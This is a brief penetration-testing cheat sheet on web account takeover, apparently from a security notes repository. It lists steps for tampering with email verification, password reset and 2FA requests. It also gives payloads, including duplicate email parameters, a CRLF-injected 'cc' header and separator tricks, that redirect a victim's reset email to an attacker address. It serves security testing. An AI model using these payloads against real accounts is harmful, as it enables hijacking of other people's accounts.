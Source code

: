 # Account takeover

## Email verification
* Signup with your email
* Open email verification link
* Set the password
* Capture the request in burp
* Replace your email with the victim one

## Password reset
* Request password reset for your account
* Open the link sent in your email
* Intercept the reset password request
* Replace your email with another one

## 2FA
* Login with your account
* Server ask you for a token
* Intercept the request with your token
* Replace your mail with another one

## Parameter pollution
Try to add a second parameter to a reset password request to test the server
validation:
```
email=victim@xyz.tld&email=attacker@xyz.tld
```

## Carbon copy
Try to get a copy of the mail containing the reset password in you inbox by
using the carbon copy functionality of mail:
```
email=victim@xyz.tld%0a%0dcc:attacker@xyz.tld
```

## Separators
Add separators to a reset password request in order to try to get a copy of the
reset mail to your inbox:
```
email=victim@xyz.tld,attacker@xyz.tld
email=victim@xyz.tld%20attacker@xyz.tld
email=victim@xyz.tld|attacker@xyz.tld
{"email": ["victim@xyz.tld","attacker@xyz.tld"]}
```
